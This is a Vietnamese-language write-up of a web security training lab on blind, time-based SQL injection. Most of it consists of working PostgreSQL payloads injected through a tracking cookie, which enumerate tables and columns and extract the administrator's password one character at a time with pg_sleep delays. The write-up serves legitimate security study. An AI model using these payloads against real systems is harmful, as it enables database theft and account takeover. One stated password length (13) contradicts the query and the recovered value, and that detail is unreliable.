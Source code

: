 # **Lab: Blind SQL injection with time delays and information retrieval**

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.  
>  The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.  
>  The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the `administrator` user.  
>  To solve the lab, log in as the `administrator` user.  

# **Solution**

Sau khi thử gây lỗi syntax ở bộ lọc và TrackingId ở cookie sẽ không có gì khác biệt ở phản hồi. Lần này sẽ phải sử dụng phương pháp time trigger để kiêm tra.

Time trigger ở filter không hoạt động, thử ở TrackingId nào:

```
TrackingId=C3xlP40tm1IUKAZ4'|| (SELECT pg_sleep(10)) ||'
```

Okeyy, that works~~  
À nữa, đó là cú pháp của PostgreSQL. Tiếp tục sử dụng cú pháp của Post thôi

```
'|| (SELECT CASE WHEN (1=4) THEN pg_sleep(3) ELSE pg_sleep(0) END ) ||'
```

```
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END ) ||'
```

Okey, chúng ta đã có cú pháp để kiểm tra điều kiện, giờ thì thử lấy tên các bảng nào. Thật may vì lab này không giới hạn độ dài của TrackingId :v

```
'||(SELECT CASE WHEN ((COUNT(*))=) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.TABLES WHERE table_schema NOT IN ('information_schema', 'pg_catalog') AND table_type = 'BASE TABLE')||'
```

Okey. Truy vấn trên tôi đang đếm số các bảng do quản trị viên tạo để lưu dữ liệu. Các thông tin về bảng đều được lưu ở `INFORMATION_SCHEMA.TABLES`.  
Tôi thêm điều kiện lọc `table_schema NOT IN ('information_schema', 'pg_catalog') AND table_type = 'BASE TABLE'` để loại bỏ các bảng khác mà chúng ta không cần quan tâm đến. Mục đích của việc này để phục vụ quá trình bruteforce lấy tên các bảng liên quan tới web cần tấn công.

Và chúng ta có kết quả, có 3 bảng cần bruteforce để lấy tên.

```
'||(SELECT CASE WHEN ((LENGTH(TABLE_NAME))='§0§') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.TABLES WHERE table_schema NOT IN ('information_schema', 'pg_catalog') AND table_type = 'BASE TABLE' LIMIT 1)||'
```

Truy vấn này để dò độ dài tên bảng thôi. Có thể thêm `OFFSET` vào sau LIMIT để lấy ra hàng mong muốn thực hiện so sánh.  
Sau cùng thì ta có độ dài `TABLE_NAME` của 3 bảng lần lượt là:

```
5
5 or 8 ~~ cái này đáng lo heng
5 or 8 ~~ lại nữa
```

Thôi thì đành thử với bảng đầu tiên trước xem sao

```
'||(SELECT CASE WHEN ((SUBSTRING(TABLE_NAME, 1, 1))='a') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.TABLES WHERE table_schema NOT IN ('information_schema', 'pg_catalog') AND table_type = 'BASE TABLE' LIMIT 1 OFFSET 0)||'
```

Hãy dùng Intruder của Burpsuite để thực hiện Bruteforce, nó tiết kiệm rất nhiều thời gian. Bằng việc thay đổi giá trị `start_pos` trong `SUBSTRING` và `'a'` ta có thể tìm ra từng ký tự của tên bảng. Và ta thu được tên bảng đâu tiên:  

```
users
```

Nice, đây chắc sẽ là bảng chứa thông tin ngừoi dùng. Ta xem có các cột gì trong bảng nào:

```
'||(SELECT CASE WHEN ((COUNT(*))='3') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users')||'
```

-> Có 3 cột trong bảng `users`

```
'||(SELECT CASE WHEN ((LENGTH(COLUMN_NAME))='8') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' ORDER BY COLUMN_NAME LIMIT 1 OFFSET 0)||'
```

Theo truy vấn trên, ta thu được độ dài tên các cột:

```
5
8
8
```

Okey, tương tự cách tìm tên bảng, giờ là tìm tên cột:

```
'||(SELECT CASE WHEN ((SUBSTRING(COLUMN_NAME, 1, 1))='u') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 1 OFFSET 0)||'
```

Ta thu được:

```
email
username
password
```

Nice~~

tiếp theo vẫn là truy vấn lấy username và password thôi.

```
'||(SELECT CASE WHEN ((COUNT(*))='3') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)||'
```

-> Có 3 user

```
'||(SELECT CASE WHEN ((LENGTH(username))='13') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users ORDER BY username LIMIT 1)||'
```

```
Độ dài: 13
```

```
'||(SELECT CASE WHEN ((SUBSTRING(username, 1, 1))='a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users ORDER BY username LIMIT 1)||'
```

```
administrator
```

```
'||(SELECT CASE WHEN ((LENGTH(password))='20') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users ORDER BY username LIMIT 1)||'
```

```
-> password length: 13
```

```
'||(SELECT CASE WHEN ((SUBSTRING(password, 1, 1))='h') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users ORDER BY username LIMIT 1)||'
```

```
-> password: hbbfg4hz16jbehdy318l
```

DONE~~~

![image](https://i.pinimg.com/474x/37/81/49/3781495f0af90005c96520aee7cd0c21.jpg)